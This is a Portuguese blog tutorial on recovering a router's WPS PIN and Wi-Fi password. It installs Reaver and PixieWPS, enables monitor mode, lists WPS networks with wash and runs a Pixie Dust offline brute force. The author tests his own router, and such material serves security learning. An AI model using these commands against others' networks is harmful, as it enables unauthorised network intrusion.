 ```yaml
---
layout: post
title:  "Explorando a vulnerabilidade do WPS"
date:   2019-03-11 19:00:00 -0300
---
```




Neste post, vou mostrar como realizar um teste de segurança em redes sem fio, que possuam o WPS ativo. Alguns roteadores possuem uma vulnerabilidade que permite realizar um ataque de brute force para encontrar o PIN WPS, uma vez identificado o PIN, é feita a autenticação, e então, temos acesso a senha da rede wireless. Para realizar o teste, utilizei meu roteador e criei uma rede apenas para este fim.

Para realizar esse teste, utilizei:

[Linux Mint](https://www.linuxmint.com/)

[PixieWPS](https://github.com/wiire/pixiewps)

[Reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)

Para começar,é necessário instalar as dependências para o Reaver e PixieWPS.

Instale os seguintes pacotes:

	# apt-get -y install build-essential libpcap-dev aircrack-ng

Depois de instalados os pacotes acima, pode instalar o Reaver e PixieWPS.

### PixieWPS  
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/wiire/pixiewps

ou

	$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd pixiewps*/
	$ cd src/
	$ make
	$ sudo make install

### Reaver
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/t6x/reaver-wps-fork-t6x

ou

	$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd reaver-wps-fork-t6x*/
	$ cd src/
	$ ./configure
	$ make
	$ sudo make install

Pronto!

---

### Configurações e execução
Agora Vamos alterar o modo de funcionamento da interface wireless.

É necessário identificar a interface wireless, para isso, basta usar o comando:

	$ iwconfig

<figure>
  <img src="https://raw.githubusercontent.com/elvisserrao/elvisserrao.github.io/master/_site/assets/images/1.png" alt=" "/>
  <figcaption style="display: block; text-align: center;">Neste caso, temos a wlp6s0 como interface wireless.</figcaption>
</figure>

Após identificar a interface wireless, altere o modo de funcionamento para o modo “Monitor”, para isso utilize o comando:

	# airmon-ng start wlp6s0

<figure>
  <img src="https://raw.githubusercontent.com/elvisserrao/elvisserrao.github.io/master/_site/assets/images/2.png" alt=" "/>
</figure>

Na saída do comando acima, está descrito entre parenteses a informação de que foi habilitado o modo monitor na interface virtual “mon0”. Além disso, foram encontrados 5 processos que podem causar algum bug ao utilizar a interface em modo monitor, para garantir que não terá nenhum problema, esses processos devem ser encerrados, para isso basta usar o comando kill, seguido dos PID’s dos processos listados.

Neste caso:

	# kill 897 898 958 1192 1273

Agora desabilite a interface wireless “wlp6s0”, para que não haja problemas ao identificar a rede alvo, com o comando:

	# ifconfig wlp6s0 down

<figure>
  <img src="https://raw.githubusercontent.com/elvisserrao/elvisserrao.github.io/master/_site/assets/images/3.png" alt=" "/>
</figure>

Após ter encerrado os processos que podem causar problemas no funcionamento do airmon-ng e desabilitar a interface wireless que não será utilizada, vamos ao próximo passo, localizar a rede alvo. Para isso, utilize o comando “wash” que lista somente redes com WPS ativo.

	# wash -i mon0

<figure>
  <img src="https://raw.githubusercontent.com/elvisserrao/elvisserrao.github.io/master/_site/assets/images/4.png" alt=" "/>
</figure>

Identificada a rede alvo, passe os parâmetros necessários para executar o Reaver e PixieWPS, com o seguinte comando:

	# reaver -i mon0 -b E8:CC:18:BE:01:AC -c 6 -vvv -K 1

<figure>
  <img src="https://raw.githubusercontent.com/elvisserrao/elvisserrao.github.io/master/_site/assets/images/5.png" alt=" "/>
</figure>

Os parâmetros passados foram: 
- -i {interface wireless} 
- -b {MAC Adress alvo} 
- -c {Canal de trasmissão}

 Os dois últimos, são “-vvv” para ativar o modo verbose, para exibir todas as mensagens de cada etapa do processo e -K 1 que faz com que o Reaver passe os dados referentes ao PKE, PKR, e-hash1 e e-hash2 automaticamente, o pixieWPS fará um brute force “off-line”, evitando que o roteador alvo bloqueie a conexão por meio do WPS após algumas tentativas, dessa forma serão testados todos os PIN’s. Por rodar o brute force com os dados coletados pelo Reaver, não há necessidade de a cada tentativa fazer a comunicação com o alvo, reduzindo drasticamente o tempo necessário para que o PIN seja encontrado, o tempo necessário em média, não supera os 30 minutos, porém a depender da capacidade de processamento do seu computador, esse tempo pode variar.

Vale lembrar que não são todos os roteadores que possuem essa vulnerabilidade, [neste link](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y/edit?pref=2&pli=1#gid=2048815923), há uma lista de dispositivos vulneráveis.

P.S.: Realizei esse teste em um roteador de minha propriedade, configurado para este fim. Não utilizem este conhecimento para testar em redes nas quais não tenham autorização para tal.